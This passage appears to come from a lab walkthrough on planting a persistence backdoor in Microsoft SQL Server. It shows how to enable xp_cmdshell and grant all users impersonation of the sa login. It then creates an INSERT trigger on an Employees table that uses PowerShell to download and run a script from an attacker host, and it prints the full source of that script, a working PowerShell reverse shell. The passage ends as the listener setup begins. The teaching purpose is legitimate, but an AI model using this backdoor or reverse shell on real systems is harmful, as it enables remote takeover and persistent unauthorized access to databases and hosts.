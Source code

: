 Once logged in, click on the **New Query** button to open the query editor:

### 27.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable `xp_cmdshell`.

```
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```
After this, we must ensure that any website accessing the database can run `xp_cmdshell`. By default, only database users with the `sysadmin` role will be able to do so. Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the `sa` user, which is the default database administrator:

```
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```
After all of this, we finally configure a trigger. We start by changing to the `HRDB` database:

```
USE HRDB
```
Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database:

```
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```
Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```
We will need to open two terminals to handle the connections involved in this exploit:
